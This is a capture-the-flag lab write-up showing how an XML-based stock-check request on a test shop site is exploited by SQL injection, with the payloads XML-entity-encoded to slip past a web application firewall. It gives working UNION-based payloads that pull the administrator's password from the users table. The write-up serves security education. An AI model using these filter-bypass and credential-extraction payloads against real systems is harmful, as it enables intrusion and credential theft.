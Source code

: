# SQL injection with filter bypass via XML 

## Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. I do not encourage or call for unauthorized access to information systems or violation of the law. In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**


## Target
---

![placeholder](images/labCard.png)

The instance seems to be a shop application with goofy items in stock:

![Lab](images/SqliLab3Target.png)

## Functionality
---

Every item has a `Check stock` button in it's details, outputing the quantity of items in stock across shops in different cities:

![Lookup](images/SqliLab3Function.png)
The `Check stock` function sends a request to the backend, containing XML:

![Request](images/SqliLab3CheckStockXML.png)

```XML 
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

That is the injection point!

## Exploitation
---

However, the Web Application Firewall will detect raw malitious input:

![Block](images/SqliLab3WAFBlock.png)

The application will still understand the encoded version of `storeId`, provided that it is valid. In this case, `storeId = 1` is treated the same as `storeId = &#49;`:

![CharXML](images/LabSqliXMLWorks.png)

This means that it is to possible to pass XML-encoded payloads to exploit the SQL-injection vulnerability.

``` SQL
1' OR 1=1 -- 
```

Below is the XML-encoded version of the PoC SQL injection payload mentioned above:

``` XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

This will dump all the product units in all the stores:

![Poc](images/SqliLab3Poc2.png)

A `UNION`-based SQL injection approach is the best option, bearing in mind that the main objective of the lab is to log in as the `administrator` user.

This query will allow to verify how many collumns does the request return, and whether the `users` table is reachable (the number of `NULL` pads is 1 in this case):

``` SQL
1' UNION SELECT NULL FROM users -- 
```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;

```

It works!

![UnionSuccess](images/SqliLab3UnionSuccess.png)

Now, to extract the data from the `users` table:

``` SQL

1' UNION SELECT password FROM users WHERE username='administrator' -- 

```

XML-encoding:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```

![UnionSuccess2](images/SqliLab3UnionPasswordSuccess.png)

To make it more clear, here is a payload which utillizes concatenation to extract both `username` and `password` entries of the table, divided by `\|/` as the delimeter:

``` SQL

1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' -- 

```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```

![Delimeter](images/SqliLab3UnionDelimeter.png)

The stolen credentials can now be used to log in as the `administrator` user, solving the lab:

![Solution](images/Lab3Solved.png)

Thank you for you attention! ^^